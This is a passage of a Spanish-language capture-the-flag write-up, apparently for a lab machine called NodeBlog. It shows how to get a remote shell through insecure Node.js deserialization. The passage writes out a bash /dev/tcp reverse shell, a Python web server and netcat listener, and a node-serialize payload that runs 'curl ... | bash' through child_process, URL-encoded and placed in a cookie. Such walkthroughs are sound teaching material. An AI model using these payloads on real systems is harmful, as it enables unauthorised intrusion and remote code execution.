 Nos `creamos` una archivo `shell`

```
bash -i >& /dev/tcp/10.10.16.23/9001 0>&1
```

Nos `creamos` un `servidor` http con `python` en el `mismo directorio` que el archivo `shell`

```
# python -m http.server 80
```

Nos ponemos en `escucha` por el `puerto 9001`

```
# nc -nlvp 9001
```

`Creamos` el nuevo `payload` y lo `urlencodeamos` usando `Burpsuite`

```
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('curl http://10.10.16.23/shell|bash', function(error,stdout, stderr) { console.log(stdout) });}()"}
```

```
%7b%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%28%29%7b%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%63%75%72%6c%20%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%31%36%2e%32%33%2f%73%68%65%6c%6c%7c%62%61%73%68%27%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d
```

![](/assets/img/NodeBlog/image_11.png)

`Insertamos` el `payload` en el `campo` de la `cookie`

![](/assets/img/NodeBlog/image_12.png)

`Recibimos` la `shell`
